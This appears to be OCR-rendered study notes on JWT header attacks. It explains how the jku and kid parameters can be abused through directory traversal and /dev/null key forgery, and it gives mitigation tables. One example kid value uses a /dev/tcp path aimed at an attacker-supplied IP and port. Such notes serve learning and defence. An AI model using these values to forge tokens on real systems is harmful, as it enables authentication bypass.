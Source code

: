 | Mitigation                                                              |
| ----------------------------------------------------------------------- |
| Enforce a strict whitelist of permitted hosts for the `jku` header. |                                                                        |
| Avoid sending tokens in URL parameters where possible.|
|Ensure that no cookies sent in the GET request            |


________
| `kid` Key ID      |
| ---  |

 Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. 

Depending on the format of the key, this may have a matching `kid` parameter

 Verification keys are often stored as a <u>JWK Set</u>. In this case, the server may simply look for the <u>JWK with the same `kid` as the token.</u> However, the JWS specification doesn't define a concrete structure for this ID - <u>it's just an arbitrary string of the developer's choosing.</u>

#### Example

*some might use the `kid` parameter to point to a particular entry in a database or even the name of a file. 

```bash
# For example if 
"kid":"key/12345” 

# search at
http://*/key/12345 
http://*/key/12345.pem 
```
 
* If this parameter is also vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal), an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.

	* This is especially dangerous if the server also supports JWTs signed using symmetrical algorithms. In this case, an attacker could potentially point the `kid` parameter to a predictable, static file, and then sign the JWT using a secret that matches the contents of this file.

```
"kid":"/dev/tcp/_yourIP_/_yourPort_
```

* You could theoretically do this with any file, but one of the simplest methods is to use `/dev/null`, which is present on most Linux systems. As this is an empty file, reading it returns an empty string. Therefore, signing the token with an empty string will result in a valid signature

 | Mitigation                                                                               |
 | ---------------------------------------------------------------------------------------- |
 | By validating and/or sanitizing the received values make sure that you're not vulnerable |
 | path traversal                                                                           |
 | SQL or LDAP injection                                                                    |
